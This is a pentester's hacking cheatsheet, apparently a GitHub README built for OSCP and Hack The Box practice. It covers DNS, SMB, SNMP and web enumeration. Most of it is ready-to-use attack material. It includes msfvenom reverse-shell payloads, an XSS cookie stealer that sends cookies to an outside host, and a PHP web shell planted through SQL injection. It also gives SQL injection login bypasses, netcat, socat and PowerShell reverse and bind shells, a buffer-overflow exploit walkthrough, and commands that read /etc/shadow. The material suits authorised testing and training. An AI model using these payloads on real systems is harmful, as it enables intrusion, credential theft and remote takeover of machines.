

# Hacking-Cheatsheet
In this repo I collect all commands, links, techniques and tricks I found during my work as pentester, hacker, OSCP student and hack the box fan.

# Basic Linux stuff you may need
Keyword search in man pages:
```bash
man -k <KEYWORD>
```
Alternatively:
```bash
apropos <KEYWORD>
```

## Find stuff
```bash
sudo find / -name <SEARCHTERM>
```

## Environment variables
basic environment variables you may need:
```bash
$PATH	#Search Paths
$USER	#Username
$PWD	#Current working directory
$HOME	#Homedirectory
```
get all environment variables:
```bash
env
```

## Bash history
saved to ~/.bash_history

show bash history:
```bash
history
```

 


# External Enumeration

## OSINT

### Whois
Forward / Reverse Search with whois
```bash
whois <DOMAIN> / <IP>
```

### Crawl words from website for passwordlist
```bash
cewl <domain> -m 6 -w words.txt
```

### The Harvester
Find Domains, E-Mail-Adresses, Subdomains, ...
```
theharvester -d <DOMAIN> -b <DATASOURCE>
```


## DNS Enumeration
```bash
# Look for A record / IP Address
host <DOMAIN>
# Look for MX record / mailservers
host -t mx <DOMAIN>
# Look for TXT record
host -t txt <DOMAIN>
# get Nameservers for Domain
host -t ns <DOMAIN>
```

### DNS forward lookup brute force
Needs a list with possible sub domains (e.g. use seclist [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists))
```bash
for ip in $(cat <FILENAME>); do host $ip.<DOMAIN>; done
```

### DNS reverse lookup brute force
```bash
for ip in $(seq <START> <END>); do host <IP-BEGINNING>.$ip; done | grep -v "not found"
```

### DNS zone transfers
```bash
host -l <DOMAIN NAME> <DNS SERVER>
```
#### DNS zone transfer automation script
```bash
#!/bin/bash
if [ -z "$1" ]; then
	echo "[*] Zone transfer script"
	echo "[*] Usage : $0 <DOMAIN> "
	exit 0
fi
for server in $(host -t ns $1 | cut -d " " -f4;) do
	host -l $1 $server | grep "has address"
done
```

### DNSRecon
DNS zone transfer:
```bash
dnsrecon -d <DOMAIN> -t axfr
```
Bruteforce subdomains:
```bash
dnsrecon -d <DOMAIN> -D <LISTNAME.txt> -t brt
```

### DNSEnum
Tries zone transfer, also can use bruteforce for subdomains
```bash
dnsenum <DOMAIN>
```

### NMAP DNS NSE scripts
```bash
nmap --script=dns-zone-transfer -p 53 <TARGET>
```

## Port-Scanning

### Nmap
#### TCP Scans
If nmap has access to raw sockets (run with sudo), nmap uses a SYN-Scan by default. Without sudo privileges: TCP-Connect-Scan.
TCP-Connect-Scan takes much longer time than SYN-Scan.
Nmap scans 1000 most common ports by default.

To be sure to use SYN/Stealth scan:
```bash
sudo nmap -sS <IP>
```

Scan all ports with service and OS detection
```bash
sudo nmap -v -A -p- <Target-IP>
```

#### UDP Scans
```bash
sudo nmap -sU <IP>
```

#### combined TCP / UDP Scan
```bash
sudo nmap -sU -sS <IP>
```

#### Network Sweeping
```bash
nmap -sn <IP-START>.1-254	#e.g. nmap -sn 10.10.10.1-254
```
Save network sweep / ping sweep result in grepable format to file
```bash
nmap -v -sn <IP-Start>.1-254 -oG <FILENAME>
grep Up <FILENAME> | cut -d " " -f 2 | head
```
TCP connect scan to top 20 ports with OS and version detection:
```bash
nmap -sT -A --top-ports=20 <IP-Start>.1-254 -oG <FILENAME>
```

### Basic port-Scanning with netcat/nc (TCP)
```bash
nc -nvv -w 1 -z <IP> <STARTPORT>-<ENDPORT>
```

### Basic port-Scanning with netcat/nc (UDP)
```bash
nc -nv -u -w 1 -z <IP> <STARTPORT>-<ENDPORT>
```

## Masscan
```bash
sudo masscan -p<PORT> <SUBNET>/<NETMASK> --rate=1000 -e <INTERFACE> --router-ip <IP OF GATEWAY>
```

## Webserver Enumeration
### Vhost Enumeration
```
nmap --script=http-vhosts --script-args domain=<DOMAIN> -p80,443 -v <Target/DOMAIN>
```

## SMB-Enumeration
Get NetBIOS Information
```bash
sudo nbtscan -r <SUBNET>/<NETMASK>
```

### Enum4Linux
```bash
enum4linux -a <IP>
```

### rpcclient
```bash
rpcclient -U "" <Target IP>
```
enter empty password

Commands in rpcclient console:
- srvinfo: Identify OS Versions
- enumdomusers: List of Usernames on this server
- getdompwinfo: Displays SMB password policy

### CrackMapExec
List of Users and Passwords to try:
```bash
crackmapexec smb <IP> -u users.txt -p passwords.txt
```

Login to WinRM (Alternative to evil-winrm):
```bash
crackmapexec winrm <IP> -u <USER> -p <PASSWORD>
```
Hint: User needs to be in group "Remote Management Users"

Brute Usernames through RID
```bash
crackmapexec smb <IP> -u <USER> -p <PASSWORD> --rid-brute
```

### NMAP SMB NSE Scripts
Determine operating system by SMB service:
```bash
nmap <IP> --script=smb-os-discovery
```

## NFS Enumeration
Find to rpcbind registered services 
```bash
nmap -sV -p 111 --script=rpcinfo <START-IP>.1-254
```

### NMAP NFS enum scripts
```bash
nmap -p 111 --script nfs* <IP>
```

### Mount NFS shares
```bash
sudo mount -o nolock <IP>:/<SHARENAME> <LOCALMOUNTDIR>
```
If a file is not accessible on the share because it's limited to a specific user with a specific uuid:
try to create a user with this uuid. Then su to this user and try to access the file.


## SMTP-Enumeration
SMTP-Enumeration with netcat
```bash
for user in $(cat typical_usernames_SMTP_Enumeration.txt); do echo VRFY $user |nc -nv -w 1 <Target-IP> 25 2>/dev/null |grep ^"250";done
```

SMTP-Enumeration Script
TODO: extend for reading users from file
```python
#!/usr/bin/python 
 
import socket 
import sys 
 
if len(sys.argv) != 2: 
 print "Usage: vrfy.py <username>" 
 sys.exit(0) 
 
# Create a Socket 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
 
# Connect to the Server 
connect = s.connect(('<IP>',25)) 
 
# Receive the banner 
banner = s.recv(1024) 
 
print banner 
 
# VRFY a user 
s.send('VRFY ' + sys.argv[1] + '\r\n') 
result = s.recv(1024) 
 
print result 
 
# Close the socket 
s.close()
```

## SNMP-Enumeration

Scan for open SNMP ports with nmap
```bash
sudo nmap -sU --open -p 161 <START-IP>.1-254 -oG <FILENAME>
```

Enumerate set of IPs for different SNMP communities
```bash
onesixtyone -c community_names.txt -i ips.txt
```
examples for community names:
- public
- private
- manager

For following examples often "public" is used as community string.

Get all SNMP info
```bash
snmpwalk -c <COMMUNITY-STRING> -v1 -t 10 <TARGET-IP>
```

Enumerate Users on Windows System
```bash
snmpwalk -c <COMMUNITY-STRING> -v1 <TARGET-IP> 1.3.6.1.4.1.77.1.2.25
```

Get list of running Windows processes
```bash
snmpwalk -c <COMMUNITY-STRING> -v1 <TARGET-IP> 1.3.6.1.2.1.25.4.2.1.2
```

Get list of open ports
```bash
snmpwalk -c <COMMUNITY-STRING> -v1 <TARGET-IP> 1.3.6.1.2.1.6.13.1.3
```

Get list of installed software
```bash
snmpwalk -c <COMMUNITY-STRING> -v1 <TARGET-IP> 1.3.6.1.2.1.25.6.3.1.2
```

## Wordpress Enumeration
```bash
wpscan --update
wpscan --url <TARGET-URL>
```

## Webapplication Enumeration
- check source code for any comments and interesting scripts
- check robots.txt
- check sitemaps (/sitemap.xml)
- check admin consoles

### dirb
```bash
dirb <URL> -z 10
```

### dirbuster
Similar to dirb but with GUI

### ffuf - fuzz faster u fool
TODO: insert command


### Webapplication Vulnerability Scan / nikto
```bash
nikto -host=<URL>
```

# File Transfer and File Downloads

## Windows
### Download files with certutil
```cmd
certutil.exe -urlcache -f http://<ip>:<port>/<filename> <localfilename>
```
Example:
```cmd
certutil.exe -urlcache -f http://10.10.14.37:8080/shell.exe reverse_shell.exe
```

### Downlaod files with Powershell
Oneliner:
```cmd
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>','<TARGET-FILENAME>')"
```

Powershell-Script:
```cmd
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.30.5/exploit.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url, $file) >>wget.ps1
```

### Powercat Filetransfer
```powershell
PS> powercat -c <IP> -p <PORT> -i <FILENAME>
```

Execute File with: [Execute Powershell File, bypass all policies](#execute-powershell-file-bypass-all-policies)

## Linux
### wget
```bash
wget -O <filename.xyz> http://<URL>/
```

### curl
```bash
curl -o <filename.xyz> http://<URL>/
```

### axel
(very fast downloader (-n # gives number of connections))
```bash
axel -a -n 20 -o <filename.xyz> http://<URL>/
```

## nc / netcat
File receiver:
```
nc -nlvp 4444 > <FILENAME>
```
File sender:
```
nc -nv <IP> <PORT> < <FILENAME>
```

## socat
File sender:
```bash
socat TCP4-LISTEN:<PORT>,fork file:<FILENAME.xyz>
```
File receiver:
```
socat TCP4:<IP>:<PORT> file:<FILENAME>,create
```

## Python Webserver
Create webserver listening to port 9090 offering files from current working directory
```bash
python3 -m http.server 9090
python -m SimpleHTTPServer 9090
```

## PHP Webserver
```bash
php -S 0.0.0.0:9090
```

## Ruby Webserver
```bash
ruby -run -e httpd . -p 9090
```
- the "." defines use of current directory as root directory for server

## Busybox Webserver
```bash
busybox httpd -f -p 9090
```


# Exploiting
## Metasploit Magic

### MSFvenom / Metasploit payloads
```bash
# Windowssystem, reverse tcp ==> use for Buffer Overflows
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<IP> -f c
# same as above but without bad characters and encoding
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<IP> -f c -e x86/shikata_ga_nai -b "<BADCHARS>"
# example for BADCHARS: "\x00\x0a\x25\x26\x2b\x3d"

# Don't break the application you exploit:
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<IP> EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "<BADCHARS>"

# Windowssystem, e.g. with IIS
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx

# e.g. Apache Webserver with PHP (don't forget to remove comment at the beginning)
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

### Metasploit local exploit suggester
Change to a writeable directory before usage for better results.
```bash
meterpreter> run post/multi/recon/local_exploit_suggester
```

## Webshells
Webshells are in the following directory on Kali:
/usr/share/webshells

## Cross-Site-Scripting (XSS)
```javascript
<script>alert('Happy Hacking')</script>
```

### Content Injection
```html
<iframe src=<URL> height="0" width="0"></iframe>
```

### XSS Cookie Stealer
```javascript
<script>new Image().src="http://x.x.x.x/stealer.jpg?output="+document.cookie;<script>
```

## PHP Remote Command/Code Execution (through Local File Inclusion)
Send the following payload as request to webserver with e.g. nc.
Possibly the webserver logs the request.
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```
After that use Local File Inclusion (LFI) to request a site, include the logfile and use the parameter "&cmd=\<COMMAND\>" to execute os commands.

### PHP Data Wrapper
Given String is used like a file content for LFIs. (No need to write/manipulate files on webserver)
```
data:text/plain,<TESTSTRING>
data:text/plain,<?php echo shell_exec("dir") ?>
```

## SQL Injections

### Authentication Bypass
```SQL
select * from users where name = '<USER>' or 1=1;#' and password = '<ANYTHING>';
select * from users where name = '<USER>' or 1=1 LIMIT 1;#' and password = '<ANYTHING>';

select * from users where name = '<USER>' or 1=1;--' and password = '<ANYTHING>';
select * from users where name = '<USER>' or 1=1 LIMIT 1;--' and password = '<ANYTHING>';
```

### Detect number of columns for UNION attack:
add a 
```SQL
ORDER BY 1--
```
statement to sql command.
Than increase number after ORDER BY until you receive a error => Value before is the correct number of columns for UNION statement.


### Detect which columns are shown
```SQL
=1 union all select 1, 2, 3, ...
```

### Get Data from database
```SQL
=1 union all select 1, 2, @@version
=1 union all select 1, 2, user()
=1 union all select 1, 2, table_name from information_schema.tables
=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
=1 union all select 1, username, password from users
```

### SQL Injection to Code Execution 
Read files from filesystem:
```SQL
=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

Write files to filesystem:
```SQL
=1 union all select 1, 2,"<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>" into OUTFILE 'c:/wwwdirectory/backdoor.php'
```

After that call the file with cmd parameter:
http://\<URL\>/backdoor.php?cmd=\<COMMAND\>

### Automated SQL Injections / Sqlmap
```bash
sqlmap -u http://<URL>/file.php?id=1 -p "id"
```

use recorded request from burp with sqlmap:
```bash
sqlmap -r <FILENAME>
```

#### Dump database with sqlmap
```bash
sqlmap -u http://<URL>/file.php?id=1 -p "id" --dbms=<DBMS> --dump
```
This also creates csv files with the data.


#### Code Execution with sqlmap
```bash
sqlmap -u http://<URL>/file.php?id=1 -p "id" --dbms=<DBMS> --os-shell
```


## Wordpress Exploiting
When you have valid admin credentials for Wordpress installation use following script to generate malicious plugin and uploading the generated plugin to WP.
[https://github.com/wetw0rk/malicious-wordpress-plugin/blob/master/wordpwn.py](https://github.com/wetw0rk/malicious-wordpress-plugin/blob/master/wordpwn.py)

## Creating Exploits with msfvenom
### Web Payloads

#### PHP Meterpreter
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
```
Don't forget to remove the starting chars of the generated file.

## Buffer Overflows
### Registers
|Short|Register description|
|--|--|
|EAX|Arithmetical and Logical Instructions|
|EBX|Base Pointer for Memory Addresses|
|ECX|Loop, Shift, Rotation Counter|
|EDX|I/O Port Addressing, Multiplication, Division|
|ESI|Pointer of data and source in string copy operations|
|EDI|Pointer of data and destination in string copy operations|

||
|:--:|
|Register in Detail|

### Pointers
|Pointer|Description|
|--|--|
|ESP|keeps track of rhe most recently referenced location on the stack (pointer to it)|
|EBP|Pointer to top of the stack|
|EIP|Points to next code instruction to be executed|

### Immunity Debugger Shortcuts
|Key|Action|
|--|--|
|F2|Set Breakpoint|
|F7|Step into|
|F8|Step Over|
|F9|Run|

### Buffer Overflow
#### Replicating the Crash
- generate a unique payload with pattern_create and send this as payload to vulnerable application. See: [here](#create-unique-pattern)
- EIP will be overwritten by a unique string
- Call pattern_offset with length of generated string and the pattern you find in the EIP to get the correct offset. See: [here](#find-unique-pattern-offset)

#### Controlling EIP
- verify the offset by creating a payload: 
	```python
	
	filler = "A" * <DETECTED-OFFSET>
	eip = "B" * 4
	buffer = "C" * (<PAYLOAD LENGTH FROM PoC> - len(filler) - len(eip))
	
	inputBuffer = filler + eip + buffer
	
	```

#### Locating Space for Shellcode
- reverse shell needs about 350-400 Bytes of space
- try to verify if there's enough space fo the reverse shell in stack

	```python
	
	filler = "A" * <DETECTED-OFFSET>
	eip = "B" * 4
	offset = "C" * 4
	buffer = "D" * (<INCREASED PAYLOAD LENGHT> - len(filler) - len(eip) - len(offset))
	
	inputBuffer = filler + eip + offset + buffer
	
	```

#### Checking for bad characters
- characters that break the program flow (e.g. 0x00 (ends strings in C), 0x0D (carriage return - ends fields in http), 0x0A (line feed - ends fields in http))
- You can use the following string to determine badchars:
```python
badchars = ( 
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" 
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" 
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" 
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" 
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" 
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" 
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" 
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" 
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" 
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" 
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" 
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" 
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" 
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" 
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" 
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" ) 
```

Remember: x00 is left out from the chars!


```python
filler = "A" * <DETECTED-OFFSET>
eip = "B" * 4
offset = "C" * 4

	
inputBuffer = filler + eip + offset + badchars

```

- After sending the badchars, follow ESP in Dump to see if a character did something unexpected
- remove the character that breaks something from the badchars and rerun the script
- determine all bad characters: e.g. "0x00, 0x0A, 0x0D, 0x25, 0x26, 0x2B, 0x3D"

#### Redirecting the execution flow / Finding a return address
- First guess: overwrite ESP ==> does not work, because this address changes every time the application runs
- Use "JMP ESP"-instruction
	- find a static address for this instruction
		- librarys with ASLR support are not possible because address needs to be static
		- address must not include any of the bad characters
		- Find Information about modules with mona in Immunity Debugger:
	```python
	!mona modules
	```
	-	Find e.g. a DLL with Rebase, SafeSEH, ASL NXCompat OS Dll deactivated
	-	Also the DLL must not contain any of the bad characters in its address
	-	now find a "JMP ESP" instruction in the DLL
	-	First wee need the OPCode for the instruction:
	```bash
	msf-nasm_shell
	nasm > jmp esp
	00000000 FFE4		jmp esp
	```
	- search for the instruction in before detected DLL:

	```python
	!mona find -s "\xff\xe4" -m "<MODULENAME>"
	```
	- returns 1-n addresses (check if it/they contains bad characters)
	- Take address and use it with "Go to address in Disassembler" to verify if there's a "JMP ESP" instruction
	- Now use the address of the instruction to overwrite the EIP:

```python
filler = "A" * 780
eip = "<ADDRESS IN REVERSE>"
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))

inputBuffer = filler + eip + offset + buffer
```
**The address in the script needs to be in reverse.**
E.g. you get the following address in immunity debugger for the JMP ESP instruction: 0x10090C83
This results in the following in your script: "\x83\x0c\x09\x10"

- now set a breakpoint on the JMP ESP instruction and rerun exploit to verify that you reach the instruction
- In the Debugger step into the JMP ESP instruction and you'll see the "D"s as new instructions

#### generating a shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<IP> -f c -e x86/shikata_ga_nai -b "<BADCHARS>"
```

#### get the shell
Shikata Ga Nai needs some space for decoding the payload. This decoding may overwrite some of the payload, so there is need for some space for this operation (NOPs).

```python
shellcode = <OUTPUT FROM MSFVENOM>
filler = "A" * 780
eip = "\x83\x0c\x09\x10"
offset = "C" * 4
nops = "\x90" * 10

inputBuffer = filler + eip + offset + nops + shellcode
```

Now open your nc listener.
==> Congrats you got a shell!
If you break the application on ending your shell: use EXITFUNC=thread on payload generation with msfvenom


### Create unique pattern
Create a unique pattern to identify correct position for buffer overflow
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <LENGTH>

#Alternatively:
msf-pattern_create -l <LENGTH>
```

### Find unique pattern offset
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <LENGTH> -q <PATTERN>

#Alternatively:
msf-pattern_offset -l <LENGTH> -q <PATTERN>
```


# Local Enumeration

## Local Linux Enumeration

### Gather information about current user
show username and groups of current user:
```bash
id
```

### System information/version
Show information about kernel and linux system
```bash
uname -a
```

- check for Kernel Exploits for the Kernel


Show linux version
```bash
cat /etc/issue
```

### Find local users
```bash
cat /etc/passwd
```

### Password hashes
```bash
cat /etc/shadow
```

### Find world writable files
```bash
find / -perm -2 ! -type l -ls 2>/dev/null
```

### List services with systemctl
```bash
systemctl list-unit-files
```

## Local Windows Enumeration

### hosts file
```cmd
type c:\windows\system32\drivers\etc\hosts
```

### boot.ini file
```cmd
type c:\boot.ini
```

### Open Ports local
```cmd
netstat -an
```

### Check permission of executable
```cmd
icacls <filename>
```

# Exploitation

## SSH Exploitation
Try given Username + Password combinations on SSH with nmap
```bash
nmap -p 22 --script ssh-brute --script-args userdb=userdb.lst,passdb=passdb.lst <IP>
```

## Local Windows Exploitation

### Service Exploitation
Dump full memory from service with Procdump
```cmd
.\procdump.exe -ma <PROCESS ID> <Filename>
```


# Post Exploitation

## Netcat Fun

Create netcat listener:
```
nc -nlvp <PORT>
```

Connect to port with netcat:
```
nc -nv <IP> <PORT>
```

### Filetransfer
File receiver:
```
nc -nlvp 4444 > <FILENAME>
```
File sender:
```
nc -nv <IP> <PORT> < <FILENAME>
```

### Netcat Shell
#### Bind Shell on Windows
```cmd
nc -nlvp 4444 -e cmd.exe
```
#### Bind Shell on Linux
```bash
nc -nlvp 4444 -e /bin/bash
```
#### Reverse Shell on Linux
```bash
nc -nv <IP> <PORT> -e /bin/bash
```
#### Reverse Shell on Windows
```cmd
nc -nv <IP> <PORT> -e cmd.exe
```

## Socat Fun
Connect to port with socat:
```bash
socat - TCP4:<IP>:<PORT>
```
Create listener with socat:
```bash
socat TCP-LISTEN:<PORT> STDOUT
```
### File Transfer with socat
File sender:
```bash
socat TCP4-LISTEN:<PORT>,fork file:<FILENAME.xyz>
```
File receiver:
```
socat TCP4:<IP>:<PORT> file:<FILENAME>,create
```

### Reverse Shell on Linux with socat
Listener:
```
socat -d -d TCP4-LISTEN:<PORT> STDOUT
```
Shell:
```
socat TCP4:<IP>:<PORT> EXEC:/bin/bash
```

### encrypted bind shell with socat
```bash
# create (self signed) SSL certificate:
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
# combine key and cetificate to pem file
cat bind_shell.key bind_shell.crt > bind_shell.pem
# create encrypted listener
socat OPENSSL-LISTEN:<PORT>,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```
connect to encrypted bind shell:
```
socat - OPENSSL:<IP>:<PORT>,verify=0
```


## Linux Post Exploitation
### Create tty console with python
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/zsh")'
```
```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/zsh")'
```

### Cracking encrypted zip-file
```bash
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' <zip-file-name>
```

## Windows Post Exploitation

### Powershell Fun
```powershell
Set-ExecutionPolicy Unrestricted
Get-ExecutionPolicy
```

#### Powershell File Transfer
```cmd
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>','<TARGET-FILENAME>')"
```

#### Powershell Shells
##### Powershell Reverseshell
```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>', <PORT>);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}

$client.Close();
```
Same as Oneliner:
```cmd
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>', <PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close();""
```

##### Powershell Bind Shell
```powershell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',<PORT>);
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '>';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush()
}

$client.Close();
$listener.Stop()
```

Same as Oneliner:
```cmd
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',<PORT>);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '>';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();$listener.Stop()"
```

### Powercat
```powershell
# Load powercat script (only in current instance)
PS> . .\powercat.ps1
```
#### Powercat Filetransfer
```powershell
PS> powercat -c <IP> -p <PORT> -i <FILENAME>
```

#### Powercat Reverse Shell
```powershell
PS> powercat -c <IP> -p <PORT> -e cmd.exe
```

#### Powercat Bind Shell
```powershell
PS> powercat -l -p <PORT> -e cmd.exe
```

#### Powercat Standalone Payloads
Generate reverse shell payload with powercat:
```
# Payload generation:
PS> powercat -c <IP> -p <PORT> -e cmd.exe -g > reverseshell.ps1
# Execute on target PC:
PS> .\reversehell.ps1
```
Generate (base64) encoded reverse shell payload with powercat:
```
PS> powercat -c <IP> -p <PORT> -e cmd.exe -ge > encodedreverseshell.ps1
# Execute:
PS> powershell.exe -E <INSERT HERE BASE64 CONTENT OF GENERATED FILE>
```


### Execute Powershell file, bypass all policies
```cmd
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1
```

### RDP connection from Linux host to Windows target
```cmd
rdesktop -u <User> -p <Password> <Target-IP>
```

# Docker Escape
If you are root in a container, try to use the following tool:
[https://github.com/PercussiveElbow/docker-escape-tool](https://github.com/PercussiveElbow/docker-escape-tool)

# Stuff you also may need

## Bash scripting variables
| Variable name | Description |
|:---------------:|:-------------|
|$0|name of bash script|
|$1 - $9| first 9 arguments of bash script|
|$#| number of arguments passed to script|
|$@|all arguments passed to bash script|
|$?|exist status of most recently run process|
|\$\$|process id of current script|
|$USER|username of user running the script|
|$HOSTNAME|hostname of machine|
|$RANDOM|a random number|
|$LINENO|current line number in the script|


## Wireshark
### Display Filters
``` 
tcp.port == <PORT>
```

## Tcpdump
### read pcap file
```bash
tcpdump -r <FILENAME.pcap>
```
### skip DNS lookup:
```bash
tcpdump -n -r <FILENAME.pcap>
```
### find most common ips
```bash
tcpdump -n -r <FILENAME.pcap> | awk -F" " '{print $3}' | sort | uniq -c | head
# gives Result:
# <Number of Packets> <IP>
```
### destination host filter
```bash
tcpdump -n dst host <IP> -r <FILENAME.pcap>
```
### port filter
```bash
tcpdump -n port <PORT> -r <FILENAME.pcap>
```
### print packet data as Hex and ASCII
```bash
tcpdump -nX -r <FILENAME.pcap>
```

## Crypto-Fun
Attacking Weak RSA Keys:
[https://github.com/Ganapati/RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)
```bash
python3 RsaCtfTool.py --publickey <PUBLIC KEY> --uncipherfile <CIPHERED FILE>
```

## URL Encodings
|encoded|symbol|
|---------|-------|
|%20| Space|
|%21|!|
|%22|"|
|%23|#|
|%24|$|
|%25|%|
|%26|&|
|%27|'|
|%28|(|
|%29|)|
|%2A|**|
|%2B|+|
|%2C|,|
|%2D|-|
|%2E|.|
|%2F|/|
|%3A|:|
|%3B|;|
|%3C|<|
|%3D|=|
|%3E|>|
|%3F|?|
|%40|@|
|%5B|\[|
|%5C|\|
|%5D|]|
|%7B|{|
|%7C|\||
|%7D|}|

## Firefox Plugins you may need
- Cookie-Editor
- Foxy Proxy
- Wappalyzer

## Tool Collection
- axel
- BurpSuite
- dirb
- dirbuster
- DNSRecon
- DNSenum
- Docker Escapte Tool [https://github.com/PercussiveElbow/docker-escape-tool](https://github.com/PercussiveElbow/docker-escape-tool)
- evil-winrm
- fuff - fuzz faster u fool [https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf)4
- Immunity-Debugger (Windows)
	- mona
- LinEnum [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
- LinPEAS
- masscan
- Metasploit
	- msf-pattern_create
	- msf-pattern_offset
	- msf-nasm_shell
- nbtscan
- nc / Netcat
- nikto
- nmap
- onesixtyone
- powercat
- RsaCtfTool [https://github.com/Ganapati/RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)
- Searchsploit
- snmpwalk
- socat
- tcpdump
- theharvester
- wireshark
- 
